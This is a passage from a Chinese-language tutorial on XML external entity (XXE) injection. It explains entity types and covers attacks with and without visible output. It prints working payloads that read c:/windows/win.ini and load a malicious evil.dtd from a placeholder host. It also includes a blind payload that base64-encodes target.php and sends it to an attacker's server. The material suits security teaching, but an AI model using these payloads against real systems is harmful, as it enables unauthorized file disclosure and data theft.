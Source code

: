 外部 evil.dtd 中的内容

```
<!ENTITY evil SYSTEM "file:///c:/windows/win.ini" >
```

可能看到这里有点晕，我简单的去做一个梳理：首先是一个参数实体，在%xxe 的时候，%xxe 会被替换成<!ENTITY evil SYSTEM "file:///c:/windows/win.ini" >，然后在下面&evil 的时候，&evil 就会被替换成"file:///c:/windows/win.ini"

- 引用公共实体（这个基本没啥利用价值，知道即可）

```
<!ENTITY 实体名称 PUBLIC "public\_ID" "URI">
```

![](6.png)

第三部分是实体的引用，我在上面的Tips以及提前说了注意事项了......

## 利用

1. 有了上面这些基础知识的铺垫，相信现在大家看这一部分就会好很多，这一节中我也会尽量简短的去讲吧，如果大家还是有哪些地方不明白，可以从头开始好好的读一遍。

2. 一般 xxe 利用分为两大场景：有回显和无回显。有回显的情况可以直接在页面中看到 Payload 的执行结果或现象，无回显的情况又称为 blind xxe，可以使用外带数据通道提取数据。

- 有回显情况：

有回显的情况可以使用如下的两种方式进行 XXE 注入攻击。

```
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  xxe SYSTEM "file:///c:/windows/win.ini" >]>
<foo>&xxe;</foo>
```

然后是第二种

```
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>
<foo>&evil;</foo>
```

外部 evil.dtd 中的内容

```
<!ENTITY evil SYSTEM "file:///c:/windows/win.ini" >
```

- 无回显的情况：

可以使用外带数据通道提取数据，先使用 php://filter 获取目标文件的内容，然后将内容以 http 请求发送到接受数据的服务器(攻击服务器)xxx.xxx.xxx.xxx，这个就是得有一个在公网的 ip 地址就行

```
<!DOCTYPE updateProfile [
  <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./target.php">
  <!ENTITY % dtd SYSTEM "http://xxx.xxx.xxx/evil.dtd">
%dtd;
%send;
]>
```
